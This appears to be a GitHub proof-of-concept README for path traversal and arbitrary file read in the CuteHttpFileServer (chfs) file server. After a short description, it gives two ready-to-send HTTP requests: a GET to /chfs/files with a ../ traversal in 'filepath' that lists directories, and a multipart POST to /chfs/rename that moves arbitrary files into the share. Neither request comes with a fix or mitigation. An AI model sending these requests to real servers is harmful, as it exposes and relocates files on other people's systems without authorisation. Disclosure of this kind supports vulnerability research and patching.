



# CuteHttpFileServer_POC
Path Traversal Vulnerability and Arbitrary File Read Vulnerability in CuteHttpFileServer

# Description
The CuteHttpFileServer/chfs is a lightweight file server that allows users to share files over HTTP.

Official website: http://iscute.cn/chfs  
Affected versions: `ALL`

The vulnerability exists due to insufficient input validation in the CuteHttpFileServer application. By manipulating the parameter `filepath` of api `chfs/files`, an attacker can traverse the file system to list files and directories outside of the intended scope. 

And through the `/chfs/rename` interface, an attacker can move and rename any file. By moving sensitive files to share_main, they can gain direct access to them, resulting in arbitrary file read.

# POC
```
GET /chfs/files?filepath=../../../../../../../../../../../&_=1708158598149 HTTP/1.1
Host: any-chfs-server.com
```




```
POST /chfs/rename HTTP/1.1
***
------WebKitFormBoundary3Kb98CNqifhhTR6B
Content-Disposition: form-data; name="new"

../../../../DESTINATION_PATH_to_MOVE
------WebKitFormBoundary3Kb98CNqifhhTR6B
Content-Disposition: form-data; name="old"

../../../../FILE_SOURCE
------WebKitFormBoundary3Kb98CNqifhhTR6B
```


